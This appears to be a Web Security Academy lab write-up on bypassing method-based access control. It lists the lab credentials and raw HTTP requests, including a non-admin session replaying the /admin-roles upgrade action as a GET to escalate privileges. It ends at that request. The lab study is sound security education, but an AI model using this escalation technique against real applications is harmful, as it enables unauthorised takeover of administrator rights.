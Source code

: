 **Credential:**
```
administrator:admin
wiener:peter
```

**Solution**

This lab contains a shopping application that contains different products to sell. There is a `My account` button on the site that redirects us to the `/login` page there we can login to our account using the username and password combination. If any of these didn't match to individual user account combination, they throw an error message such as:

```
Invalid username or password.
```

First, we login with the `admin` credentials, and after the login, we see the admin has access to the admin panel in which they can make other users either `admin` or `normal` users. To make the user Admin they send the following request.

```
POST /admin-roles HTTP/1.1
Host: 0aac006e03f3814581188575002900fc.web-security-academy.net
Connection: keep-alive
Content-Length: 32
Origin: https://0aac006e03f3814581188575002900fc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Referer: https://0aac006e03f3814581188575002900fc.web-security-academy.net/admin

Cookie: session=PnZ95fGMH05A1BpMADV6ndjge0RZgHvE

username=wiener&action=upgrade
```

You see the `upgrade` action is used to make `wiener` an admin user and to make him again a normal user this request will all be the same just one change the `upgrade` action changed with `downgrade`.

The things to note here is the endpoint `/admin-role`, `username`, and `action` parameter. Now we login with the `wiener` user and make the same request with the `wiener` user and see if they let us do it.

By sending the same request with the `wiener` user session we see they show us an error message `Unauthorized`. They add access control that restricts non-admin users to change another user role. Let's try to send the same request but with other HTTP request methods like `GET` on the Burp suite user change request method to automatically change the request method. The Changed request should look like the following.

```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: 0aac006e03f3814581188575002900fc.web-security-academy.net
Connection: keep-alive
Origin: https://0aac006e03f3814581188575002900fc.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Referer: https://0aac006e03f3814581188575002900fc.web-security-academy.net/admin
Cookie: session=hg5ttUX7k38HS2Pxo9XNfE0CrGIzPPeO
```
